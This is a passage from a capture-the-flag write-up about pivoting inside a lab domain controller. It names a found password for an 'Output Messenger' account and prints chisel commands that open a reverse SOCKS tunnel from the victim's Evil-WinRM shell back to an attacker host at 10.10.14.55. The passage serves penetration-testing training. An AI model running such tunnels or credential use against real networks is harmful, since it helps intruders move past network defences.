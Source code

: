 We do manage to get a session! Great, we are finally on the box! Note, that the user.txt flag is on the users desktop. We still have a long journey ahead for the root flag though.

Enumerating the programs shows a program called "Output Messenger". Everything else looks not very interesting. We also have that password, if you remember, "MessengerApp@Pass!" from the user "k.turner". This is probably a credential for it.

<figure><img src=".gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>

Let's see how we get to it. A quick look at online docs will show us what ports we need access to:

<figure><img src=".gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

So we will need to establish a proxy chain setup for this, since we didn't see those ports listening from the outside. For this, we will use chisel. Go ahead and upload the Windows version of chisel on the victim DC01, and the Linux version on your host. Next, we can connect the two as server and client:

{% code overflow="wrap" %}
```
┌──(kali㉿kali)-[~/infiltrator-writeup/kerbrute/dist]
└─$ ./chisel server --port 9050 --socks5 --reverse 
2025/05/14 09:25:08 server: Reverse tunnelling enabled
2025/05/14 09:25:08 server: Fingerprint dlyyg/gBMV/Gcx/LM/HBR3qQCWt5/eqkJtD/XuNnWrs=
2025/05/14 09:25:08 server: Listening on http://0.0.0.0:9050 

--------------------------------------------------------------------------------------

Info: Upload successful!
*Evil-WinRM* PS C:\Users\M.harris\Documents> .\chisel.exe client 10.10.14.55:9050 R:socks
chisel.exe : 2025/05/14 06:26:35 client: Connecting to ws://10.10.14.55:9050
    + CategoryInfo          : NotSpecified: (2025/05/14 06:2...0.10.14.55:9050:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
```